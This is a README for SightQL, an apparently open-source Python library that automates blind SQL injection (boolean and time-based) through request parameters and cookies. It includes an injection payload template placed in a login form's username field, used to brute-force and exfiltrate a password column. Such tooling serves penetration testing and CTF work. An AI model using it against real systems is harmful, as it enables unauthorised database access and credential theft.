 # SightQL

## Description

SightQL is a Python library which allows to exploit an SQL Injection using multiple entrypoints such as classical GET/POST parameters and cookies.

## Installation

```
git clone https://github.com/Ruulian/SightQL.git
cd SightQL
python3 setup.py install
```

## Usage

```py
from sightql import SightQL

def predicate(r) -> bool:
    """
    r : requests.models.Response

    The predicates must take a "requests" response and return a bool
    """
    return "Welcome back" in r.text

s = SightQL(
    target="http://localhost",
    params={
        "username":"admin' and {payload} -- -",
        "password":"foo"
    },
    column_to_exfil="password",
    predicate=predicate
)

s.restore()

```

The library will replace all the ``{payload}`` strings in your params/cookies keys and bruteforce all the characters.

### Predicate examples

Blind SQL Injection in login form:
```py
def predicate(r):
    return "Welcome back" in r.text
```

Blind SQL Injection Time Based:
```py
SLEEP_SECONDS = 5

def predicate(r):
    return r.elapsed.seconds > SLEEP_SECONDS
```

## TODO

- Add on PyPI